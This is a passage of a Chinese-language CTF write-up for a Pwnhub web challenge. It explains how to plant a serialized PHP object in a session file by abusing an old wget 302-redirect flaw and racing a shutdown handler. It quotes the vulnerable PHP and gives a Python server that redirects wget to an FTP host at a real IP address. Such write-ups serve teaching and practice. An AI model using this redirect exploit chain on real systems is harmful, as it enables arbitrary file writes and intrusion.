 所以，接下来，我们就需要做的工作就是控制firesun文件里面的内容为，```O:6:"Pwnhub":0:{}```

接下来，就是如何做到让firesun的内容是```O:6:"Pwnhub":0:{}```

由于代码中，有另一块向firesun中赋值的操作：

```Php
function pwnhubfile()
{
    global $firesun_path;
    file_put_contents($firesun_path . '/firesun', serialize($_SESSION));
}
session_start();
register_shutdown_function('pwnhubfile');
```

即，一次访问结束或者遇到一场以后，系统会自动生成一个firesun的的文件。

所以，在整个过程中，我们几乎没办法控制firesun为```O:6:"Pwnhub":0:{}```

正式做题的时候，就卡在这了。。

后来，官方提示 

```
2017.03.04 21:20:00wget_wrapper就是wget，不要想着在url上做文章进行命令执行，过滤很严，wget版本较低，wget版本较低，wget版本较低，重要的话说三遍
```

查了一下，[wget在低版本有一个302的漏洞](https://latec0mer.com/archives/wget-arbitrary-command-executes.html)，可以导致我们可以控制其下载任意一个文件。这样，我们就可以利用这个漏洞，控制firesun文件了。让服务器通过wget请求一个firesun文件。这里因为有register_shutdown_function('pwnhubfile');的存在，我们需要进行条件竞争利用。（此外，可以在网上搜到一道和它很像的WP，应该是依据它改的题目。[http://quanyang.github.io/secuinside-ctf-quals-2016-trendyweb/](http://quanyang.github.io/secuinside-ctf-quals-2016-trendyweb/)）

整个逻辑如下：

1. 我们访问页面，生成一个独特的sessionid，并执行set_context($session_id),获取firesun的内容。
2. 于此同时，我们要利用download_image函数的wget漏洞，让sessionid下面的firesun内容为O:6:"Pwnhub":0:{}。
3. 此外，我们要让2的操作，在第一次访问结束之前就执行完。因为第一次访问结束后，系统就会生成一个firesun。而，wget是无法覆盖文件的。也就是说，如果我们第一次请求结束前没有反序列化成功，就代表当前的session废用了。（这里的$firesun_path目录由id控制）

这里，先依据302漏洞的博客，配一个环境。

http服务：

```python
import SimpleHTTPServer
import SocketServer

HTTP_HOST = '106.14.61.185'
HTTP_PORT = 8080
HTTP_REDIRECT_HOST = 'ftp://anonymous@106.14.61.185:21'
HTTP_REDIRECT_FILE = 'firesun'

class RedirectServer(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', '%s/%s' % (HTTP_REDIRECT_HOST, HTTP_REDIRECT_FILE))
        self.end_headers()

handler = SocketServer.TCPServer((HTTP_HOST, HTTP_PORT), RedirectServer)
handler.serve_forever()
```
